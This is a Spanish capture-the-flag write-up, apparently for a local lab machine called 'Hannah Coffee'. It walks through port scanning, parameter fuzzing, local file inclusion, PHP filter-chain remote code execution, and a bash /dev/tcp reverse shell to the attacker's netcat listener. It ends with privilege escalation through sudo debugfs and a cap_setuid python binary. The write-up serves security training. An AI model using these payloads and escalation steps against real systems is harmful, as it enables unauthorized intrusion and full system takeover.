




## Table of contents

## Enumeración

La máquina Hannah Coffee tiene la ip **172.17.0.2**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 172.17.0.2

Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
80/tcp open  http    Apache httpd 2.4.68 ((Debian))
|_http-title: Hannah's Coffee
|_http-server-header: Apache/2.4.68 (Debian)
```

### Puerto 80 (Web)

Accedemos con el navegador a la ip de la máquina y vemos la web de una empresa de café.

Si revisamos la web vemos que el parámetro **page** de la url se encarga de cargar el contenido.



Tratamos de ver si es vulnerable pero no encontramos nada. Así que, vamos a ver si el **index.php** recibe algún otro parámtetro por **GET**, para ello empleamos **ffuf**.

```bash
ffuf -c -u "http://172.17.0.2/index.php?FUZZ=value" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -fl 30

 :: Method           : GET
 :: URL              : http://172.17.0.2/index.php?FUZZ=value
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 30
________________________________________________

studio                  [Status: 200, Size: 637, Words: 145, Lines: 25, Duration: 12ms]
```

Descubrimos el parámetro **studio**, probamos si es vulnerable a un **Local File Inclusion** (**LFI**) tratando de leer el **/etc/passwd**



Confirmamos que es vulnerable a **LFI**. Vamos a emplear un **wrapper de php** para tratar de leer el contenido del index.php en base64.

```bash
http://172.17.0.2/index.php?studio=php://filter/convert.base64-encode/resource=index.php
```



## Explotación
### RCE

El wrapper funciona, por lo que utilizamos el script **php_filter_chain_generator.py** del repositorio de **synacktiv** para generar una cadena en base64 y poder ejecutar comandos desde un parámetro en la url.

- https://github.com/synacktiv/php_filter_chain_generator

Generamos la cadena en base64 con:

```bash
python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`?>'
```

De esta forma, la cadena en base64 va en el parámetro **studio** y los comandos en nuestro parámetro **0**.




Tenemos un **Remote Code Execution** (**RCE**), por lo que nos vamos a enviar una reverse shell.

Nos ponemos en escucha con **netcat**.

```bash
nc -nlvp 4444
```

Y enviamos la clásica reverse shell.

``` bash
http://172.17.0.2/index.php?0=bash+-c+'bash+-i+>%26+/dev/tcp/172.17.0.1/4444+0>%261'&studio=php://filter....
```

Recibimos la reverse shell como **www-data**.

## Movimiento Lateral
### Hannah

Si revisamos los permisos sudoers, vemos que podemos ejecutar como el usuario **hannah** y sin proporcionar contraseña, el binario de **debugfs** sobre el un archivo del directorio **/opt**.

```bash
www-data@b223870c93fa:/var/www/html$ sudo -l
Matching Defaults entries for www-data on b223870c93fa:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on b223870c93fa:
    (hannah) NOPASSWD: /sbin/debugfs -w /opt/hannah_disk.img
```

Vamos a abusar de ello para obtener una bash como **hannah**.

```bash
www-data@eb03f70a085b:/$ sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
debugfs 1.47.2 (1-Jan-2025)
debugfs:  !/bin/bash

hannah@eb03f70a085b:/$ id
uid=1001(hannah) gid=1001(hannah) groups=1001(hannah)
```

```bash
hannah@eb03f70a085b:~$ ls -la
total 16
drwx------ 1 hannah hannah   16 Aug  6 08:46 .
drwxr-xr-x 1 root   root     12 Aug  6 08:46 ..
-rw-r--r-- 1 hannah hannah  220 May  9 11:07 .bash_logout
-rw-r--r-- 1 hannah hannah 3526 May  9 11:07 .bashrc
-rw-r--r-- 1 hannah hannah  807 May  9 11:07 .profile
-rw------- 1 hannah hannah   42 Aug  6 08:46 user.txt
```

## Escalada de Privilegios
### Root

Revisando el directorio **/opt** vemos un binario de python que puede ser ejecutado por nuestro usuario.

```bash
hannah@b223870c93fa:/$ ls -la /opt/
total 72192
drwxr-xr-x 1 root root         30 Aug  6 08:46 .
drwxr-xr-x 1 root root         84 Aug 14 13:56 ..
-rw-rw-rw- 1 root root   67108864 Aug  6 08:46 hannah_disk.img
-rwxr-x--- 1 root hannah  6812336 Aug  6 08:46 priv-python
```

Al revisar las capabilities, observamos que ese binario tiene fijado el capability **cap_setuid** con permisos efectivos y permitidos (**ep**).

```bash
hannah@eb03f70a085b:/$ getcap -r / 2>/dev/null
/opt/priv-python cap_setuid=ep
```

De esta forma, podemos emplear **priv-python** para cambiar nuestro **UID** a 0 (**root**) y lanzarnos una bash como **root**.

```bash
hannah@eb03f70a085b:/$ /opt/priv-python -c 'import os; os.setuid(0); os.execl("/bin/bash", "bash")'

root@eb03f70a085b:/# whoami
root
root@eb03f70a085b:/# ls -la /root/
total 12
drwx------ 1 root root  16 Aug  6 08:46 .
drwxr-xr-x 1 root root  92 Aug 14 11:31 ..
-rw-r--r-- 1 root root 607 Jul  4 09:05 .bashrc
-rw-r--r-- 1 root root 132 Jul  4 09:05 .profile
drwx------ 1 root root   0 Aug  6 08:43 .ssh
-rw------- 1 root root  42 Aug  6 08:46 root.txt
```